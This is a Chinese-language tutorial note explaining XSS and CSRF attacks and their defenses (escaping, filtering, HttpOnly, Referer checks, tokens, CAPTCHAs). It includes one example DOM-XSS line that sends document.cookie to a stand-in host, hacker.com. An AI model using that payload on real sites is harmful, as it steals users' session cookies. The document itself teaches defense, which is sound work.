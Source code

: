# XSS攻击与CSRF攻击 
2021-03-08
## XSS 跨站脚本攻击
跨站脚本攻击（Cross Site Scripting），缩写为XSS(原本应该叫CSS,but,you know...)。指的是攻击者往Web页面中插入恶意Script代码，当用户浏览该页时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。类似于SQL注入。

### 分类
1. 反射型
经过后端，不经过数据库。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS随响应内容一起返回给浏览器，最后浏览器解析执行XSS代码。
2. 存储型
经过后端，经过数据库。反射型XSS过程中后端服务器仅仅将XSS代码保存在内存中，并未持久化，因此每次触发反射性XSS都需要由用户输入相关的XSS代码；而存储型XSS则仅仅首次输入相关的XSS代码，保存在数据库中，当下次从数据库中获取该数据时会造成XSS。
3. DOM型
不经过后端，在前端浏览器触发,比如:
```js
div.innerHTML = "<script>$.get('[http://hacker.com?cookie='](http://hacker.com?cookie=')  + document.cookie)</script>"
```

### 如何预防
1. 不适用innerHTML, 改成innerText
2. 如果要使用innerHTML,采用HTML转义处理
```
把 > 替换成 &gt;
把 < 替换成 &lt;
把 & 替换成 &amp;
把 " 替换成 &quot;
把 ' 替换成 &#39;
```
3. 字符过滤
滤掉特殊的HTML标签，例如`<script>`、`<iframe>`等；过滤掉Javascript事件标签，例如"onclick"、"onfocus"等。

## CSRF
跨站点请求伪造（Cross-Site Request Forgery），缩写为CSRF。

### 攻击原理及过程
1. 用户打开浏览器，访问受信任网站A，输入用户名和密码请求登录A；
2. 用户信息通过验证后，网站A产生cookie信息并返回给浏览器，此时用户登录A网站成功，可以正常发请求到网站A；
3. 用户未退出A之前，在同一个浏览器打开一个tab页访问网站B；
4. 网站B接到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

### 预防
1. 验证HTTP Referer
根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。通过 Referer Check，可以检查请求是否来自合法的"源"。

HTTP Referer字段记录了HTTP请求的来源地址，后台可根据此字段控制请求来自于同一个网站，防止CSRF攻击。但是Referer是浏览器提供的，浏览器有漏洞时可能导致Referer被篡改

2. 在请求中添加token并验证
CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。

要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

3. 验证码
从上述示例中可以看出，CSRF 攻击往往是在用户不知情的情况下构造了网络请求。而验证码会强制用户必须与应用进行交互，才能完成最终请求。因为通常情况下，验证码能够很好地遏制 CSRF 攻击。

但验证码并不是万能的，因为出于用户考虑，不能给网站所有的操作都加上验证码。因此，验证码只能作为防御 CSRF 的一种辅助手段，而不能作为最主要的解决方案。

## 总结
1. 防御 XSS 攻击
* HttpOnly 防止劫取 Cookie
* 用户的输入检查
* 服务端的输出检查
2. 防御 CSRF 攻击
* 验证码
* Referer Check
* Token 验证

## 参考链接
* [浅说 XSS 和 CSRF · Issue #68 · dwqs/blog](https://github.com/dwqs/blog/issues/68)
* [Web安全：XSS攻击和CSRF攻击 - 知乎](https://zhuanlan.zhihu.com/p/43059133)